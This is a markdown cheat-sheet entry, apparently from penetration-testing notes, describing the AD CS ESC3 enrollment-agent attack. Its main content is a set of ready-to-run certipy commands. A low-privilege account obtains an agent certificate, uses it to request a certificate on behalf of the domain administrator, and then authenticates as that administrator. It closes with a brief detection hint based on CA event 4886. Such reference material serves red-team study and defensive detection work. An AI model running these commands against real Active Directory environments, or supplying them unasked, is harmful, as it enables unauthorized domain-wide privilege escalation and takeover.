

# AD CS ESC3 (enrollment-agent policy)

### Affected object / attribute
**Certificate template** with the **Certificate Request Agent EKU** and low-priv enrolment.

### Concept (deep)
The attacker obtains an **agent certificate**, then uses it to request a certificate **on behalf of** a privileged user. This is a **two-stage chain**: enrol agent → enrol on-behalf-of.

### Attack flow (Mermaid)


### Commands
```bash
# ── Step 1 — obtain agent certificate ───────────────────────────────
certipy req -u lowpriv@corp.local -p 'Password123!' \
  -ca CORP-CA -template AgentTemplate

# ── Step 2 — request on behalf of administrator ──────────────────────
certipy req -u lowpriv@corp.local -p 'Password123!' \
  -ca CORP-CA -template User \
  -on-behalf-of 'CORP\administrator' \
  -pfx agent.pfx

# ── Authenticate ─────────────────────────────────────────────────────
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.5
```

### Detection
**4886** with **`RequesterName` ≠ `Subject`** (on-behalf-of) in the CA log. Restrict agent templates to enrolment agents.

---
